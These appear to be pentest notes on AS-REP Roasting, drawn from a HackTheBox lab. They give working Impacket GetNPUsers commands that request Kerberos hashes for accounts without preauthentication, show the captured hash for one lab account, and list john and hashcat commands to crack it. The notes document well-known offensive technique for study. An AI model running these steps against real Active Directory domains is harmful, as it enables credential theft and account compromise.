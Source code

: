 +++
title = "AS-REP Roasting"
author = ["svejk"]
tags = ["impacket", "pentest", "kerberoasting", "kerberos", "Windows"]
draft = false
+++

## AS-REP Roasting {#as-rep-roasting}

Two key attacks on [Kerberos]({{< relref "kerberos.md" >}}) security in Active Directory include [kerberoasting]({{< relref "kerberoasting.md" >}}) and AS-REP Roasting. Kerberoasting typically requires credentials on the domain to authenticate with. There is an option for an account to have the property “Do not require Kerberos preauthentication” or UF_DONT_REQUIRE_PREAUTH set to true. AS-REP Roasting is an attack against Kerberos for these accounts.

Use the [Impacket]({{< relref "impacket.md" >}}) tool `GetNPUsers.py` to try to get a hash for each user

```shell
λ ~/ctf/htb/forest/ for user in $(cat usernames.txt); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:25311259ddd6d0e65a4ae2cd898c547b$2328b382956004167ef612abbfd0b3350d362f386d70deadf093d73dd33fadea8bf648d3d7c1cab3565b508a9dafb06cb399ac26e04521ffa22edc882213994257e53976a81b78aaf49dfe02da14f6f76fc7def2a7d4e7e8ff696efa29a1ac4a8df2c0f7856df3c7aa7bbff60e93c1e1fbfc538745a0ffefa3f383d68ddfb4984d1194bc56cc9d168b69a512901815da53cba71a2d0a13c6369fd1b74b9ce3367119502354b2cae4ae3096e5ba4a041fa8a0d1d7f4a92c0f47d2c6ee7bcc73b7f2c3b10955799c807bf43d3035488fb385c68568e770d87d771343e16266ea8f

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```


### List of users {#list-of-users}

```sh { linenos=true, linenostart=1 }
impacket-GetNPUsers -dc-ip <target-ip> example.local/ -no-pass -usersfile users.txt
```


### Crack hash or use pass-the-hash {#crack-hash-or-use-pass-the-hash}

```sh { linenos=true, linenostart=1 }
john --format=krb5asrep --wordlist=wordlist.txt hash.txt
# or
hashcat -m 18200 -a 0  hash.txt wordlist.txt
```

The hash is quickly cracked with `hashcat`.

